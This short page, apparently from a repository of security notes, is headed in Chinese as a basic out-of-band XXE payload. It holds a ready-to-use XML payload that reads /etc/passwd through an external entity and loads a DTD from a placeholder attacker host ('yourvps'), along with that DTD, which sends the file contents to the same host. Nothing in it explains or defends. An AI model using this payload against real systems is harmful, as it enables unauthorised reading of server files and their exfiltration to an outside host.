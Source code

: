 ## 带外xxe的基础payload

payload
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://yourvps/xxe.xml">
%dtd; %all;
]>
<value>&send;</value>
```
xxe.xml
```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://yourvps/%file;'>">
```